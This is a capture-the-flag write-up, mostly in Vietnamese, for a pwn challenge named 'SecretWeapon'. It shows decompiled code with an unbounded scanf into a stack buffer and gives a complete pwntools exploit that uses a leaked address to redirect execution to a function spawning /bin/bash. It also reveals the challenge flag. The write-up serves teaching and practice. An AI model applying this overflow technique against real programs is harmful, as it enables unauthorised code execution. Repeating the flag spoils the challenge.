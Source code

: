 # **SecretWeapon**

## Task
nc 61.28.237.24 30201

File: weapon

## Solution

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setup();
  townsquare();
  return 0;
}
```

```c
int townsquare()
{
  char v1[20]; // [esp+0h] [ebp-18h] BYREF

  puts("You wanna open the arsenal. Tell me the passphrase!");
  printf("Your current location is townsquare with the address %p \n", townsquare);
  return __isoc99_scanf("%s", v1);
}
```

```c
int arsenal()
{
  return run_cmd("/bin/bash");
}
```

Bài này đơn giản sẽ là overwrite địa chỉ trả về của hàm `townsquare` với địa chỉ của hàm `arsenal` để gọi bash shell

## Exploit
python code

```python
from pwn import *

binary = context.binary = ELF('./weapon')

p = process('./weapon')
#p = remote('61.28.237.24','30201')

p.recvuntil('Your current location is townsquare with the address ')

# lấy địa chỉ của hàm townsquare
add_curr = p.recvline().strip()

# chuyển string sang int
add = int(add_curr, 16)


# padding từ biến nhập vào đến địa chỉ trả về
payload = b'A'*(0x18+0x4)

# tính offset khoảng cách địa chỉ local và địa chỉ trên server từ địa chỉ townsquare vừa nhận được
offset = add - binary.sym.townsquare


# nối vào payload địa chỉ mới của hàm arsenal từ offset vừa tính
payload += p32(binary.sym.arsenal+offset)

p.sendline(payload)

p.interactive()

```

## Run scripts
vì server đã đóng nên mình tiến hành khai thác local với file flag.txt HCMUSCTF{bank6}

![image](https://user-images.githubusercontent.com/31529599/120056455-8c6bbc00-c066-11eb-8ff9-64eca9af64c0.png)

Xong !

